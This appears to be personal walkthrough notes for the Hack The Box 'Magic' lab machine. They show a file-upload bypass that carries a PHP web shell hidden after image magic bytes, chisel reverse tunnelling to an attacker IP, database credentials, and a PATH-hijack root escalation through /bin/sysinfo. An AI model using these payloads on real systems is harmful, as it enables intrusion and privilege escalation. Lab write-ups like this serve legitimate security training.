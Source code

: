 ### foothold
```
------WebKitFormBoundaryO4Ah2DIFGOp8Tlpk
Content-Disposition: form-data; name="image"; filename="test11.php%00.png"
Content-Type: application/x-php

ÿØÿà ..*GGIEGULXY # Try to use a legit img first. Then LEFT a full line here to help you bypass second layer magic byte check.

<?php system($_GET["cmd"]);?>

# If that still doesn't work, try put the payload into middle of an image
```
##### File not found even it says upload successfully
try encode `test11.php%00.png` -> `test11.php%2500.png`

##### www-data
```
image/jpeg

stty rows 39 columns 165

```

### Lateral
##### SSH as www-data, But failed
```bash
www-data@ubuntu:/var/www$ cd Magic
www-data@ubuntu:/var/www/Magic$ mkdir .ssh

ssh-keygen -q -t rsa -N '' -C 'pam'
/var/www/Magic/.ssh/id_rsa

cp .ssh/id_rsa.pub .ssh/authorized_keys
chmod 600 .ssh/authorized_keys 
```

```bash
ssh -i /tmp/key www-data@10.129.223.83 # X
ssh Magic@10.129.223.83 -i key # X
```

```bash
# Chisel
./chisel server -p 8000 --reverse
./chisel client 10.10.16.9:8000 R:3306:127.0.0.1:3306

mysql -h 127.0.0.1 -u theseus -D Magic -piamkingtheseus # 3306 is default
```

admin
Th3s3usW4sK1ng

`su theseus`

### Root
##### Interesting that picked up by at least two tools
```bash
/bin/sysinfo

echo "/bin/bash" > lshw
chmod +x lshw
PATH=.:$PATH /bin/sysinfo
```

### Alternative mysql pivoting
##### Database Dump
https://0xdf.gitlab.io/2020/08/22/htb-magic.html#database-dump
```bash
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic

```
